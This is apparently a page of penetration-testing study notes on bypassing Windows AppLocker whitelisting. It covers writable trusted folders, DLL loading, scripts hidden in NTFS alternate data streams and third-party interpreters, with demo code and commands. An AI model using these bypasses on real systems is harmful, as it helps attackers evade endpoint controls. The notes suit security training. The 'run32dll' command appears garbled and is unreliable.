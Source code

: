 **TRUSTED FOLDERS:**

AppLocker rules does not apply to the built-in local accounts such as Local System, Local Service, or Network Service. Neither they do apply to the IIS DefaultAppPool account.

Default AppLocker rules only allows to execute programs located under these directories: C:\Program Files, C:\Program Files (x86), and C:\Windows.

However there may be subdirectories under C:\Program Files, C:\Program Files (x86), or C:\Windows that may have write and executable permisions. To do so we will use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
in conjuction with icacls:

```
1. accesschk.exe <user_name> C:\Windows -wus
2. icacls <directory>  -> on the posible directories to check if they got executable permision
```

**BYPASS WITH DLLs:**

The default ruleset doesn’t protect against loading arbitrary DLLs. So if we create an unmangaed DLL, we load it and then call methods of that unmanaged DLL, we could gain code execution:

```
1st Create an unmanaged DLL:
#include "stdafx.h"
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)

{
  switch (ul_reason_for_call)
  {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) void run()
{
  MessageBoxA(NULL, "Execution happened", "Bypass", MB_OK);
}

2nd Compile the DLL

3rd Load and execute the run method of the DLL

C:\> run32dll testdll.dll,run
```

**ALTERNATE DATA STREAMS:**

Windows Filesystem is based on NTFS and NTFS supports multiple Data Streams. An Alternate Data Stream is a binary file attribute that contains metadata.

For example lets say we have this JScript file(test.js) with this contents:

```
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
```

Then we use this command to write test.js as an Alternate Data Stream of a file that is located under a whitelisted directory, and we have write permissions over it.

```
C:\> type test.js > "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\> dir /r "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log"
  Volume in drive C has no label.
  Volume Serial Number is 305C-7C84

Directory of C:\Program Files (x86)\TeamViewer

03/09/2020 08:34 AM 32,489 TeamViewer12_Logfile.log
                      79 TeamViewer12_Logfile.log:test.js:$DATA

          1 File(s) 32,489 bytes
          0 Dir(s) 696,483,840 bytes free

C:> wscript.exe "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"   -> this will spawn a cmd.exe
```

**THIRD PARTY EXECUTION:**

AppLocker only enforces rules against native Windows executable data file types. However if another scripting interpreter is installed on the system(as python) we can abuse that. See the python [shellcode runner](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Application%20WhiteListing/shellcode_runner_x64.py).

You can also use Java to bypass AppLocker, however this requires JRE to be installed. Additionally AppLocker doesn't block the execution of Office macros.
 

